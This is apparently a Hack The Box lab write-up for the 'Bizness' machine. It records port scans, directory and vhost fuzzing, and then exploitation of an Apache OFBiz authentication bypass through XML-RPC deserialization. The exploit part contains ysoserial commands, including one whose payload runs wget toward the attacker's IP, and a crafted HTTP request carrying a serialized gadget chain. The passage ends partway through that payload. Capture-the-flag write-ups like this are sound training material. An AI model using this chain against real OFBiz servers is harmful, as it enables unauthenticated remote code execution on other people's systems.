



## Rustscan

As usual we are provided by only one ip(10.10.11.252) as entry point and we know it's about a Linux machine. So first step will be checking for open ports on the TCP protocoll:

```
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0B2izYdzgANpvBJW4Ym5zGRggYqa8smNlnRrVK6IuBtHzdlKgcFf+Gw0kSgJEouRe8eyVV9iAyD9HXM2L0N/17+rIZkSmdZPQi8chG/PyZ+H1FqcFB2LyxrynHCBLPTWyuN/tXkaVoDH/aZd1gn9QrbUjSVo9mfEEnUduO5Abf1mnBnkt3gLfBWKq1P1uBRZoAR3EYDiYCHbuYz30rhWR8SgE7CaNlwwZxDxYzJGFsKpKbR+t7ScsviVnbfEwPDWZVEmVEd0XYp1wb5usqWz2k7AMuzDpCyI8klc84aWVqllmLml443PDMIh1Ud2vUnze3FfYcBOo7DiJg7JkEWpcLa6iTModTaeA1tLSUJi3OYJoglW0xbx71di3141pDyROjnIpk/K45zR6CbdRSSqImPPXyo3UrkwFTPrSQbSZfeKzAKVDZxrVKq+rYtd+DWESp4nUdat0TXCgefpSkGfdGLxPZzFg0cQ/IF1cIyfzo1gicwVcLm4iRD9umBFaM2E=
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFMB/Pupk38CIbFpK4/RYPqDnnx8F2SGfhzlD32riRsRQwdf19KpqW9Cfpp2xDYZDhA3OeLV36bV5cdnl07bSsw=
|   256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOjcxHOO/Vs6yPUw6ibE6gvOuakAnmR7gTk/yE2yJA/3
80/tcp    open  http       syn-ack ttl 63 nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   syn-ack ttl 63 nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Issuer: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-12-14T20:03:40
| Not valid after:  2328-11-10T20:03:40
| MD5:   b182:2fdb:92b0:2036:6b98:8850:b66e:da27
| SHA-1: 8138:8595:4343:f40f:937b:cc82:23af:9052:3f5d:eb50
| -----BEGIN CERTIFICATE-----
| MIIDbTCCAlWgAwIBAgIUcNuUwJFmLYEqrKfOdzHtcHum2IwwDQYJKoZIhvcNAQEL
| BQAwRTELMAkGA1UEBhMCVUsxEzARBgNVBAgMClNvbWUtU3RhdGUxITAfBgNVBAoM
| GEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDAgFw0yMzEyMTQyMDAzNDBaGA8yMzI4
| MTExMDIwMDM0MFowRTELMAkGA1UEBhMCVUsxEzARBgNVBAgMClNvbWUtU3RhdGUx
| ITAfBgNVBAoMGEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDCCASIwDQYJKoZIhvcN
| AQEBBQADggEPADCCAQoCggEBAK4O2guKkSjwv8sruMD3DiDi1FoappVwDJ86afPZ
| XUCwlhtZD/9gPeXuRIy66QKNSzv8H7cGfzEL8peDF9YhmwvYc+IESuemPscZSlbr
| tSdWXVjn4kMRlah/2PnnWZ/Rc7I237V36lbsavjkY6SgBK8EPU3mAdHNdIBqB+XH
| ME/G3uP/Ut0tuhU1AAd7jiDktv8+c82EQx21/RPhuuZv7HA3pYdtkUja64bSu/kG
| 7FOWPxKTvYxxcWdO02GRXs+VLce+q8tQ7hRqAQI5vwWU6Ht3K82oftVPMZfT4BAp
| 4P4vhXvvcyhrjgjzGPH4QdDmyFkL3B4ljJfZrbXo4jXqp4kCAwEAAaNTMFEwHQYD
| VR0OBBYEFKXr9HwWqLMEFnr6keuCa8Fm7JOpMB8GA1UdIwQYMBaAFKXr9HwWqLME
| Fnr6keuCa8Fm7JOpMA8GA1UdEwEB/wQFMAMBAf8wDQYJKoZIhvcNAQELBQADggEB
| AFruPmKZwggy7XRwDF6EJTnNe9wAC7SZrTPC1gAaNZ+3BI5RzUaOkElU0f+YBIci
| lSvcZde+dw+5aidyo5L9j3d8HAFqa/DP+xAF8Jya0LB2rIg/dSoFt0szla1jQ+Ff
| 6zMNMNseYhCFjHdxfroGhUwYWXEpc7kT7hL9zYy5Gbmd37oLYZAFQv+HNfjHnE+2
| /gTR+RwkAf81U3b7Czl39VJhMu3eRkI3Kq8LiZYoFXr99A4oefKg1xiN3vKEtou/
| c1zAVUdnau5FQSAbwjDg0XqRrs1otS0YQhyMw/3D8X+f/vPDN9rFG8l9Q5wZLmCa
| zj1Tly1wsPCYAq9u570e22U=
|_-----END CERTIFICATE-----
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| tls-alpn: 
|_  http/1.1
33141/tcp open  tcpwrapped syn-ack ttl 63
```

Ok and what about UDP ports?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nmap -sU -F 10.10.11.252                                                                                                                                                                                                                                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 14:23 CET
Nmap scan report for 10.10.11.252
Host is up (0.044s latency).
All 100 scanned ports on 10.10.11.252 are in ignored states.
Not shown: 51 open|filtered udp ports (no-response), 49 closed udp ports (port-unreach)

Nmap done: 1 IP address (1 host up) scanned in 46.69 seconds
```

Nothing, then I will add to local HOSTS file the FQDN(**bizness.htb**) and proceed with enumeration of singular services.

* * *

## SSH:

As usual ssh is not our first way in as we don't have any valid credentials and bruteforce won't be a inteded way is as very rarely produces any good results, instead can creates downtime if a WAF is in place.

I will move on for now and evetually come back as soon I find a valid credentials set.

* * *

## HTTP/S:

Trying to surf to the FQDN on **http://bizness.htb** we are in front of a company website that server different types of services B2B and consultancy to other companies.


From what I see both the HTTP and HTTPS are pointing to the same website that's good to know. Next checking with Wappalizer we can see that **Nginx 1.18.0** is the used webserver i the backend.

The only part of the website that seems attackable is the contact form which by the way don't seem being doing anything so far:



So I will try to run a fuzzing on the hidden directories on the website:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "https://bizness.htb/"                                                                                                                                                                                                                      

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                                                                                       
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/https_bizness.htb/__24-01-11_14-37-41.txt

Target: https://bizness.htb/

[14:37:41] Starting:                                                                                                                                                                                                                                         
[14:37:48] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[14:37:49] 400 -  795B  - /a%5c.aspx                                        
[14:37:50] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/  
[14:38:14] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/        
[14:38:18] 302 -    0B  - /common  ->  https://bizness.htb/common/          
[14:38:18] 404 -  780B  - /common/config/api.ini                            
[14:38:18] 404 -  779B  - /common/config/db.ini                             
[14:38:18] 404 -  762B  - /common/                                          
[14:38:20] 302 -    0B  - /content  ->  https://bizness.htb/content/        
[14:38:20] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[14:38:20] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[14:38:20] 200 -   34KB - /control/                                         
[14:38:20] 200 -   34KB - /control                                          
[14:38:20] 200 -   11KB - /control/login                                    
[14:38:23] 404 -  763B  - /default.html                                     
[14:38:23] 404 -  741B  - /default.jsp                                      
[14:38:26] 302 -    0B  - /error  ->  https://bizness.htb/error/            
[14:38:26] 404 -  770B  - /error/error.log                                  
[14:38:26] 404 -  761B  - /error/                                           
[14:38:27] 302 -    0B  - /example  ->  https://bizness.htb/example/        
[14:38:34] 404 -  762B  - /images/                                          
[14:38:34] 302 -    0B  - /images  ->  https://bizness.htb/images/
[14:38:34] 404 -  769B  - /images/Sym.php
[14:38:34] 404 -  769B  - /images/c99.php                                   
[14:38:34] 404 -  768B  - /images/README                                    
[14:38:36] 302 -    0B  - /index.jsp  ->  https://bizness.htb/control/main  
[14:38:45] 404 -  682B  - /META-INF/application.xml                         
[14:38:45] 404 -  682B  - /META-INF/application-client.xml                  
[14:38:45] 404 -  682B  - /META-INF
[14:38:45] 404 -  682B  - /META-INF/container.xml
[14:38:45] 404 -  682B  - /META-INF/ironjacamar.xml
[14:38:45] 404 -  682B  - /META-INF/eclipse.inf
[14:38:45] 404 -  682B  - /META-INF/app-config.xml
[14:38:45] 404 -  682B  - /META-INF/jboss-app.xml
[14:38:45] 404 -  682B  - /META-INF/
[14:38:45] 404 -  682B  - /META-INF/beans.xml
[14:38:45] 404 -  682B  - /META-INF/CERT.SF
[14:38:46] 404 -  682B  - /META-INF/jboss-ejb3.xml
[14:38:46] 404 -  682B  - /META-INF/MANIFEST.MF
[14:38:45] 404 -  682B  - /META-INF/ejb-jar.xml
[14:38:46] 404 -  682B  - /META-INF/jboss-webservices.xml
[14:38:46] 404 -  682B  - /META-INF/openwebbeans/openwebbeans.properties
[14:38:46] 404 -  682B  - /META-INF/jboss-ejb-client.xml
[14:38:46] 404 -  682B  - /META-INF/jboss-deployment-structure.xml
[14:38:46] 404 -  682B  - /META-INF/jbosscmp-jdbc.xml
[14:38:45] 404 -  682B  - /META-INF/context.xml
[14:38:46] 404 -  682B  - /META-INF/ra.xml
[14:38:46] 404 -  682B  - /META-INF/jboss-client.xml
[14:38:46] 404 -  682B  - /META-INF/weblogic-ejb-jar.xml
[14:38:46] 404 -  682B  - /META-INF/spring/application-context.xml
[14:38:46] 404 -  682B  - /META-INF/persistence.xml                         
[14:38:46] 404 -  682B  - /META-INF/SOFTWARE.SF
[14:38:46] 404 -  682B  - /META-INF/weblogic-application.xml                
[14:39:10] 302 -    0B  - /solr/  ->  https://bizness.htb/solr/control/checkLogin/
[14:39:10] 200 -   21B  - /solr/admin/                                      
[14:39:10] 200 -   21B  - /solr/admin/file/?file=solrconfig.xml
[14:39:21] 404 -  682B  - /WEB-INF/application-client.xml                   
[14:39:21] 404 -  682B  - /WEB-INF
[14:39:21] 404 -  682B  - /WEB-INF/                                         
[14:39:21] 404 -  682B  - /WEB-INF/cas-servlet.xml
[14:39:21] 404 -  682B  - /WEB-INF/applicationContext.xml
[14:39:21] 404 -  682B  - /WEB-INF/classes/app-config.xml
[14:39:21] 404 -  682B  - /WEB-INF/beans.xml
[14:39:21] 404 -  682B  - /WEB-INF/classes/application.yml
[14:39:21] 404 -  682B  - /WEB-INF/classes/default-theme.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/cas-theme-default.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/application.properties
[14:39:21] 404 -  682B  - /WEB-INF/application_config.xml
[14:39:21] 404 -  682B  - /WEB-INF/classes/commons-logging.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/demo.xml                         
[14:39:21] 404 -  682B  - /WEB-INF/classes/countries.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/db.properties
[14:39:21] 404 -  682B  - /WEB-INF/cas.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/default_views.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/faces-config.xml
[14:39:21] 404 -  682B  - /WEB-INF/classes/hibernate.cfg.xml
[14:39:21] 404 -  682B  - /WEB-INF/classes/applicationContext.xml
[14:39:21] 404 -  682B  - /WEB-INF/classes/config.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/languages.xml
[14:39:21] 404 -  682B  - /WEB-INF/classes/log4j.xml
[14:39:21] 404 -  682B  - /WEB-INF/classes/messages.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/mobile.xml
[14:39:21] 404 -  682B  - /WEB-INF/classes/fckeditor.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/META-INF/app-config.xml
[14:39:21] 404 -  682B  - /WEB-INF/classes/protocol_views.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/persistence.xml
[14:39:21] 404 -  682B  - /WEB-INF/classes/services.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/META-INF/persistence.xml
[14:39:21] 404 -  682B  - /WEB-INF/classes/theme.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/web.xml
[14:39:21] 404 -  682B  - /WEB-INF/classes/validation.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/logback.xml
[14:39:21] 404 -  682B  - /WEB-INF/conf/caches.dat
[14:39:21] 404 -  682B  - /WEB-INF/conf/caches.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/struts.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/log4j.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/velocity.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/struts-default.vm
[14:39:21] 404 -  682B  - /WEB-INF/classes/resources/config.properties
[14:39:21] 404 -  682B  - /WEB-INF/classes/struts.xml
[14:39:21] 404 -  682B  - /WEB-INF/conf/config.properties
[14:39:21] 404 -  682B  - /WEB-INF/conf/daemons.properties
[14:39:21] 404 -  682B  - /WEB-INF/conf/core_context.xml
[14:39:21] 404 -  682B  - /WEB-INF/conf/editors.properties
[14:39:21] 404 -  682B  - /WEB-INF/conf/jtidy.properties
[14:39:21] 404 -  682B  - /WEB-INF/conf/core.xml
[14:39:21] 404 -  682B  - /WEB-INF/conf/db.properties
[14:39:21] 404 -  682B  - /WEB-INF/components.xml
[14:39:21] 404 -  682B  - /WEB-INF/conf/page_navigator.xml
[14:39:21] 404 -  682B  - /WEB-INF/conf/jpa_context.xml
[14:39:22] 404 -  682B  - /WEB-INF/conf/webmaster.properties
[14:39:21] 404 -  682B  - /WEB-INF/conf/mime.types
[14:39:22] 404 -  682B  - /WEB-INF/config/faces-config.xml
[14:39:22] 404 -  682B  - /WEB-INF/config/dashboard-statistics.xml
[14:39:22] 404 -  682B  - /WEB-INF/config/mua-endpoints.xml
[14:39:21] 404 -  682B  - /WEB-INF/conf/lutece.properties
[14:39:21] 404 -  682B  - /WEB-INF/conf/search.properties
[14:39:22] 404 -  682B  - /WEB-INF/conf/wml.properties
[14:39:22] 404 -  682B  - /WEB-INF/config.xml
[14:39:22] 404 -  682B  - /WEB-INF/config/security.xml
[14:39:22] 404 -  682B  - /WEB-INF/config/metadata.xml
[14:39:22] 404 -  682B  - /WEB-INF/config/users.xml
[14:39:22] 404 -  682B  - /WEB-INF/config/soapConfig.xml
[14:39:22] 404 -  682B  - /WEB-INF/config/webmvc-config.xml
[14:39:22] 404 -  682B  - /WEB-INF/config/web-core.xml
[14:39:22] 404 -  682B  - /WEB-INF/config/webflow-config.xml
[14:39:22] 404 -  682B  - /WEB-INF/dispatcher-servlet.xml
[14:39:22] 404 -  682B  - /WEB-INF/deployerConfigContext.xml
[14:39:22] 404 -  682B  - /WEB-INF/faces-config.xml
[14:39:22] 404 -  682B  - /WEB-INF/decorators.xml
[14:39:22] 404 -  682B  - /WEB-INF/geronimo-web.xml
[14:39:22] 404 -  682B  - /WEB-INF/ejb-jar.xml
[14:39:22] 404 -  682B  - /WEB-INF/glassfish-resources.xml
[14:39:22] 404 -  682B  - /WEB-INF/ias-web.xml
[14:39:22] 404 -  682B  - /WEB-INF/glassfish-web.xml
[14:39:22] 404 -  682B  - /WEB-INF/jax-ws-catalog.xml
[14:39:22] 404 -  682B  - /WEB-INF/ibm-web-ext.xmi
[14:39:22] 404 -  682B  - /WEB-INF/jboss-ejb-client.xml
[14:39:22] 404 -  682B  - /WEB-INF/jboss-web.xml
[14:39:22] 404 -  682B  - /WEB-INF/ibm-web-bnd.xmi
[14:39:22] 404 -  682B  - /WEB-INF/jboss-deployment-structure.xml
[14:39:22] 404 -  682B  - /WEB-INF/jboss-client.xml
[14:39:22] 404 -  682B  - /WEB-INF/jetty-env.xml
[14:39:22] 404 -  682B  - /WEB-INF/jboss-webservices.xml
[14:39:22] 404 -  682B  - /WEB-INF/jetty-web.xml
[14:39:22] 404 -  682B  - /WEB-INF/hibernate.cfg.xml
[14:39:22] 404 -  682B  - /WEB-INF/liferay-display.xml
[14:39:22] 404 -  682B  - /WEB-INF/jonas-web.xml
[14:39:22] 404 -  682B  - /WEB-INF/jboss-ejb3.xml
[14:39:22] 404 -  682B  - /WEB-INF/liferay-layout-templates.xml
[14:39:22] 404 -  682B  - /WEB-INF/liferay-portlet.xml
[14:39:22] 404 -  682B  - /WEB-INF/jrun-web.xml
[14:39:22] 404 -  682B  - /WEB-INF/liferay-look-and-feel.xml
[14:39:22] 404 -  682B  - /WEB-INF/liferay-plugin-package.xml
[14:39:22] 404 -  682B  - /WEB-INF/local-jps.properties
[14:39:22] 404 -  682B  - /WEB-INF/local.xml
[14:39:22] 404 -  682B  - /WEB-INF/logs/log.log
[14:39:22] 404 -  682B  - /WEB-INF/portlet-custom.xml
[14:39:22] 404 -  682B  - /WEB-INF/rexip-web.xml
[14:39:22] 404 -  682B  - /WEB-INF/resin-web.xml
[14:39:22] 404 -  682B  - /WEB-INF/resources/config.properties
[14:39:22] 404 -  682B  - /WEB-INF/spring-config.xml
[14:39:22] 404 -  682B  - /WEB-INF/sitemesh.xml
[14:39:22] 404 -  682B  - /WEB-INF/portlet.xml
[14:39:22] 404 -  682B  - /WEB-INF/openx-config.xml
[14:39:22] 404 -  682B  - /WEB-INF/quartz-properties.xml
[14:39:22] 404 -  682B  - /WEB-INF/spring-config/authorization-config.xml
[14:39:22] 404 -  682B  - /WEB-INF/spring-config/application-context.xml
[14:39:22] 404 -  682B  - /WEB-INF/restlet-servlet.xml
[14:39:22] 404 -  682B  - /WEB-INF/spring-config/management-config.xml
[14:39:22] 404 -  682B  - /WEB-INF/service.xsd
[14:39:22] 404 -  682B  - /WEB-INF/remoting-servlet.xml
[14:39:22] 404 -  682B  - /WEB-INF/spring-config/messaging-config.xml
[14:39:22] 404 -  682B  - /WEB-INF/spring-config/presentation-config.xml
[14:39:22] 404 -  682B  - /WEB-INF/spring-context.xml
[14:39:22] 404 -  682B  - /WEB-INF/spring-configuration/filters.xml
[14:39:22] 404 -  682B  - /WEB-INF/spring-mvc.xml
[14:39:22] 404 -  682B  - /WEB-INF/logback.xml
[14:39:22] 404 -  682B  - /WEB-INF/springweb-servlet.xml
[14:39:22] 404 -  682B  - /WEB-INF/spring-dispatcher-servlet.xml
[14:39:22] 404 -  682B  - /WEB-INF/struts-config-ext.xml
[14:39:22] 404 -  682B  - /WEB-INF/struts-config.xml
[14:39:22] 404 -  682B  - /WEB-INF/spring/webmvc-config.xml
[14:39:22] 404 -  682B  - /WEB-INF/struts-config-widgets.xml
[14:39:22] 404 -  682B  - /WEB-INF/tjc-web.xml
[14:39:22] 404 -  682B  - /WEB-INF/sun-jaxws.xml
[14:39:22] 404 -  682B  - /WEB-INF/tiles-defs.xml
[14:39:22] 404 -  682B  - /WEB-INF/urlrewrite.xml
[14:39:22] 404 -  682B  - /WEB-INF/spring-ws-servlet.xml
[14:39:22] 404 -  682B  - /WEB-INF/web-borland.xml
[14:39:22] 404 -  682B  - /WEB-INF/sun-web.xml
[14:39:22] 404 -  682B  - /WEB-INF/spring-config/services-config.xml
[14:39:22] 404 -  682B  - /WEB-INF/spring-config/services-remote-config.xml
[14:39:22] 404 -  682B  - /WEB-INF/web-jetty.xml
[14:39:22] 404 -  682B  - /WEB-INF/validation.xml
[14:39:22] 404 -  682B  - /WEB-INF/validator-rules.xml
[14:39:22] 404 -  682B  - /WEB-INF/web.xml.jsf
[14:39:22] 404 -  682B  - /WEB-INF/trinidad-config.xml
[14:39:22] 404 -  682B  - /WEB-INF/web.xml
[14:39:22] 404 -  682B  - /WEB-INF/web2.xml
[14:39:22] 404 -  682B  - /WEB-INF/workflow-properties.xml                  
[14:39:22] 404 -  682B  - /WEB-INF/weblogic.xml                             
                                                                             
Task Completed
```

That \*accounting\* seems interesting, but before doing anything I will do same and check for possible hidden VHOSTS on the machine as well.

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://bizness.htb -H "Host:FUZZ.bizness.htb" -fl 8

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://bizness.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.bizness.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 8
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 796 req/sec :: Duration: [0:00:19] :: Errors: 0 ::
```

Nothing so far so going back to that **\*/accounting/\*** directory we are redetected to a Login page of a product called "**OFBIz Accounting Manager**"?



Now googling around I found the main website(https://ofbiz.apache.org/) and seem like a ERP/CRM solution developed by Apache and based on Javascript language.

Googling around about the product seems like there is a fresh CVE about a very high impact bug that could lead to unathenticated auth bypass on the product.

Reference: https://www.theregister.com/2024/01/08/apache_ofbiz_zeroday/

Going into detail there is a very detailed article from SonicWall that analyzes the CVE here: https://blog.sonicwall.com/en-us/2023/12/sonicwall-discovers-critical-apache-ofbiz-zero-day-authbiz/

Again looking around for possible RCE I found 2 possibilities:

- http://packetstormsecurity.com/files/176323/Apache-OFBiz-18.12.09-Remote-Code-Execution.html
- https://github.com/vulhub/vulhub/blob/master/ofbiz/CVE-2023-49070/README.md

The first one is a simple URL params in order to bypass the login page, the second involves the use of JS deserialization. And looking around I found the following article that touches how to get a RCE via Deserialization([https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-5146](https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467))

And sending something similar (example request):

```
POST /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

Now we need:

- Prepare the payload with Ysolserial for deserialization:

```
java -jar ysoserial.jar CommonsBeanutils1 "PAYLOAD HERE" | base64 | tr -d "\n"
```

```
java -jar --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED ysoserial.jar CommonsBeanutils1 'wget 10.10.16.3:5555'| base64 | tr -d "\n"
```

Now that we have a B64 encoded serialized payload should be able to use the other structure and get a RCE! But before invoke a NC listener!

- Run the RCE:

```
GET /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=s&requirePasswordChange=Y HTTP/1.1
Host: bizness.htb
Content-Length: 4141
Content-Type: application/xml

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAK29yZy5hcGFjaGUuY29tbW9ucy5iZWFudXRpbHMuQmVhbkNvbXBhcmF0b3LjoYjqcyKkSAIAAkwACmNvbXBhcmF0b3JxAH4AAUwACHByb3BlcnR5dAASTGphdmEvbGFuZy9TdHJpbmc7eHBzcgA/b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmNvbXBhcmF0b3JzLkNvbXBhcmFibGVDb21wYXJhdG9y+/SZJbhusTcCAAB4cHQAEG91dHB1dFByb3BlcnRpZXN3BAAAAANzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3QAEltMamF2YS9sYW5nL0NsYXNzO0wABV9uYW1lcQB+AARMABFfb3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD/////dXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX+AYIVOACAAB4cAAABqjK/rq+AAAAMgA5CgADACIHADcHACUHACYBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFrSCT85Hd7z4BAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAE1N0dWJUcmFuc2xldFBheWxvYWQBAAxJbm5lckNs